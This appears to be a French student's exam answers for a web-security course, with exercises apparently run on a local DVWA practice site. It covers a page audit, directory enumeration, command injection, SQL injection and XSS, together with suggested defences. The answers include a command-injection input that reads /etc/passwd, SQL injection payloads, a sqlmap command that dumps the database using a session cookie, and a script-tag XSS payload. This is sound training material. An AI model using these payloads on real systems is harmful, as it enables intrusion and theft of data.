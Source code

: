 # Eval

SIMON EYRAGNE DFS 13


## Question 1
Performance parfaite;
<html> missing [lang] attribute; interpretation du navigateur selon la langue de l'utilisateur,
<img> missing [alt]: mettre description des images;
<meta name="viewport"> missing; pas d'optimisation pour les mobiles;
 mauvaise utilisation des fontsizes
 meta description pour le document,
  page bloqué pour l'indexation


## Question 2
un dossier config

Dirbuster déduit l'arborescence d'un site web depuis les requete HTTP si code 403 (forbidden) alors le fichier existe;
Pour se protéger, on peut limiter le nombre de requete depuis L'IP; Renvoyer code 404(not found) pour tous les fichiers;

## Question 3
8.8.8.8; cat /etc/passwd
chaine après la commande ping, j'affiche le fichier avec le cat 
possibilité d'exécuter des commandes OS, vol d'information, modification du server;
-validation des inputs: taille, min and max length;
-on escape les caractères ';'

## Question 4


## Question 5
Premier test avec ', qui renvoie une erreur sql;
2eme test avec  ' OR 1=1 -- , qui renvoie la liste + password des user
3eme test avec ' OR 1=1 UNION SELECT 1,1,1 -- , pas le bon nombre de colonnes
4eme avec ' OR 1=1 UNION SELECT 1,2 -- 
' OR 1=1 UNION SELECT CONCAT(information_schema.tables),2 --; unknown table information_schema 


## Question 6

sqlmap -u "http://localhost/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --dbms=mysql --dump --cookie="PHPSESSID=nhea6jcj46io50n8b7r4dl1135; security=low" -b --current-db --current-user

Une injection SQL aveugle demande a la DB des questions vrai ou faux

## Question 7
<script>alert('js')</script>
On passe une balise script dans l'input
Faille: script pour récupérer des informations
Protection: on escape les caractère, mise en place d'un WAF

## Question 8

<script>alert('js')</script>
On passe une balise script dans l'input
Dans le cas d'une XSS stocké, le script malicieux est stocké en base
et peut donc se déclencher a tout moment;

## Question 9

Confidentiality, Integrityn, Availabitlity
Principe du transport de données


